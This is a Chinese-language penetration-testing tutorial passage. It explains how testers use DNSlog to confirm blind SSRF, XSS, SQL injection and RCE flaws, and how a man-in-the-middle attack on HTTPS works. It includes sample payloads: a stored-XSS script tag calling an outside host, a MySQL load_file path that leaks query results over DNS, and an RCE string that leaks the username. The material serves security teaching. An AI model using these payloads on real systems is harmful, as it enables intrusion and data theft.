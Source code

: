 ### 9、DNSlog在渗透测试中的实战技巧

```
1. SSRF盲打

某系统的机票信息存在导出功能，抓包修改导出信息的请求queryPath参数路径为自己的DNSlog

可以看到DNSlog平台成功记录访问请求，证明SSRF漏洞

1. XSS盲打

实战中构成致命性损伤的XSS类型就是储存型XSS，一般是从前端打到后台

比如：在一个留言框，输入payload （好的管理员！<script src=http://testxss.a.com></script）

因为script标签的src是在加载后就自动请求的，并且http协议仍然会用到dns协议，当管理员从留言板看到这条消息浏览器会自动去请求http ://testxss.a.com,这样的话，就会在DNSlog里留下 testxss.a.com 10.0.0.0

当我们在DNSlog中看到这条记录时间就说明盲打XSS存在了

1. XXE盲打

对于没有回显的XXE漏洞

1. SQL盲注

无论布尔盲注还是时间型盲注，在现代WAF的防护下，很可能导致IP被ban。

结合DNSlog，如遇到Mysql的盲注时，可以利用内置函数load _file()，来完成DNSlog，load _file()不仅能够加载本地文件

Select load_file(‘\\\\SQL注入查询语句.dnslog’)

1. RCE盲打

%USERNAME%.dnslog
```

### 10、中间人攻击？

```
原理：

https是 对http内容的[加密](https://so.csdn.net/so/search?q=加密&spm=1001.2101.3001.7020)，中间人攻击是指攻击者通过与客户端和客户端的目标服务器同时建立连接，作为客户端和服务器的桥梁，处理双方的数据，整个会话期间的内容几乎是完全被攻击者控制的。攻击者可以拦截双方的会话并且插入新的数据内容。

"中间人攻击”原理

1.客户端请求被劫持（如DNS劫持等），所有的客户端请求均被转发至中间人的服务器；

2.中间人服务器返回中间人伪造的"伪证书”（包含伪公钥）；

3.客户端创建随机数，通过中间人证书的伪公钥对随机数进行加密后传输给中间人，然后凭随机数构造对称加密算法对要进行传输的数据内容进行对称加密后传输；

4.中间人因为拥有客户端生成的随机数，从而能够通过对称加密算法进行数据内容解密；

5.中间人再以"伪客户端”的身份向正规的服务端发起请求；

6.因为中间人与服务器之间的通信过程是合法的，正规服务端通过建立的安全通道返回加密后的数据内容；

7.中间人凭借与正规服务器建立的对称加密算法进行数据内容解密；

8.中间人再通过与客户端建立的对称加密算法对正规服务器返回的数据内容进行加密传输；

9.客户端通过中间人建立的对称加密算法对返回的数据内容进行解密；
```
